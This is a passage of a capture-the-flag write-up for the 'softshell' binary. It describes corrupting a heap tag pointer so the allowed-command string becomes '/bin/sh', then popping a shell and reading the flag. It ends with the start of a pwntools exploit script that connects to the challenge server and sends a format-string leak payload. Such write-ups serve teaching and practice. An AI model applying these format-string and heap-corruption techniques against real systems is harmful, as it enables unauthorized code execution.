 The malloc(0x28) line will create a 0x30 sized chunk, so all we need to do is try to run one of our commands, say yes to giving input, and send the address of the allowed string. Note that yet again I couldn't get p64 to work, so I did the same as before. If you're trying the same, remember the nullbytes at the end to not get your address ruined by a newline character.

We can confirm that the tag pointer change has taken effect by viewing the second command as seen below.

![changed tag pointer](./images/moo.png "changed tag pointer")

When we now edit the tag of the second command, we instead edit the allowed string. All that is left to do is to edit the allowed string to "/bin/sh", create a new command containing "/bin/sh" and running that last command. This lets us pop a shell and cat the flag as seen below.

![getting flag](./images/flag.png "getting flag")


## Full Exploit:
```py
from pwn import *

exe = ELF("./softshell")

# p = process("./softshell")
# gdb.attach(p)

p = remote("chal.pctf.competitivecyber.club", 8888)

context.binary = exe

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(b"%6$p %15$p")
p.recvuntil(b">>")
p.sendline(b"AAAA")

p.recvuntil(b">>")
p.sendline(b"2")
```